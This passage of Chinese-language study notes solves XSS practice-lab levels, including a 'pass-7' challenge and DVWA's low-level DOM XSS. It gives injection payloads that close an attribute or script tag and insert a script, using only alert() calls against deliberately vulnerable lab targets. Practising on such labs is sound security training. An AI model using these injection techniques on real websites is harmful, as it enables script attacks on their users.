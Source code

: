 ```php+HTML
<input type="input" name="xss" value="" style="width: ">
<script>alert(/2333/)</script>
px"  id="text" /> 
```

**payload：**

```
"><script>alert(/xss/)</script>
```



### pass-7

#### 考点：构造\<script\>标签闭合，再注入

```jsp
<script>
	document.getElementById('text').style.width ="200px";
</script>
```

#### 思路：

将\<script\>标签闭合，再注入，再注入payload

```php+HTML
<script>
	document.getElementById('text').style.width =""</script>
<script>alert(/2333/)</script>
```

**payload：**

```
"</script><script>alert(/xss/)</script>
```



## [DVWA] XSS 靶场

### [DVWA]（DOM）

#### Low级别

##### 考点：URL注入XSS

##### 思路：直接在URL中注入XSS

**payload：**

```
?default=<script>alert(/xss/)</script>
```


